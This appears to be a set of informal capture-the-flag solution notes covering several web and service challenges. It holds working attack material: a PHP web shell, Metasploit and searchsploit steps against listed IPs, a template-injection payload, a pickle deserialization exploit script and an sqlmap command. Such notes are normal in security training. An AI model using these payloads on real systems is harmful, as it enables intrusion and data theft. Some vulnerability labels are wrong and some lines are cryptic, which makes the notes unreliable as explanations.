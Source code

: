 # dirsearch2
dirsearch
Bolt

1. view page saurce ( its written on bolt)
2. url/bolt
3. admin – password
4. file management – create file.txt enter - <?php echo system($_GET['cmd']);?>
5. rename flag.txt to file.php go to file
6. url = php?cmd=ls -l
7. php?cmd=cat /flag.txt
path traversal vulnerability 

Elastic ?

1. msfconsole 
2. search elasticsearch
3. use 3(an romelsac director traversial uweria
4. info
5. set rhost x.x.x.x
6. set rport yyyy
7. run
8. exit
9. cat grdzeli.txt
directory traversal 

Libssh

1. searchsploit libssh
2. searchsploit -m linux/remote/46307.py
3. python3 file 34.141.12.127  31367  "cd ..;cat flag.txt"
libSSH vulnerability 

Php unit

1. php unit cve (vulnerability)

1. dirsearch -u url 

2. url /composer.json

3. burp url/eval-stding.php

4. <?php system('cat /flag.txt')?>

path traversal 

Non-diff backdoor

1. Dirsearch -u url
2. Backup.zip
3. Wget url/backup.zip
4. Cd backup 
5. Grep -r “shell_exec(“
6. Cat ….php
7. url?welldone=knockknock&shazam=id 
8. =cat flag.php
9. View page source
10. 108zea
Shark

1. ${7*7}
2. Burp 
3. Submit something 
4. Name= 
<%
import os
x=os.popen(‘cat flag’).read()
%>
${x}
5. Repeater 
Vulnerability - Server Site Template Injection

Authorization

1. Python3 ./dirsearch.py -u link -w db/dicc.txt
2. /auth/client_secrets.json/robots.txt/secrets
3. Burp
4. Get -post
5. Data is In json format
6. { “username”:”admin”, “password":”admin”}
7. Get /secrets
content-type: application/json
Authorization: JWT
is ragac
vulnerability is in how the application handles user authentication and authorization JWT Implementation Issues

online-encryption

1. Traffic http filter
2. Hash 1427
3. Htlm 
4. Base64decode.org
5. Rot13.com (13 letter apart)
Poor encryption and basic obfuscation techniques are used in the handling of sensitive data during network transmission.

Sweet-and-sour

1. Curl -I link
2. Echo -n “cookie” | base64 -d
3. Nano ragaca.py
4. import pickle
import base64

import requests

 

 

class Exploit(object):

      def __reduce__ (self):

           return eval, ("open('flag', 'r').read()", )

 

def sendPayload (p):

      print (base64.urlsafe_b64encode(p))

      headers = {"Cookie":"data=" + base64.urlsafe_b64encode(p).decode ()}

      t = requests.get ("http://35.198.135.192:30562/dashboard", headers=headers)

     print (t. text)

 

sendPayload (pickle.dumps (Exploit(), protocol=2))

5. Python ragaca 
Schematics

1. Dirsearch -I link
2. %
3. Sqlmap –cookie=”PHPSESSID=…” -u link/index.php –forms –columns –random-agent

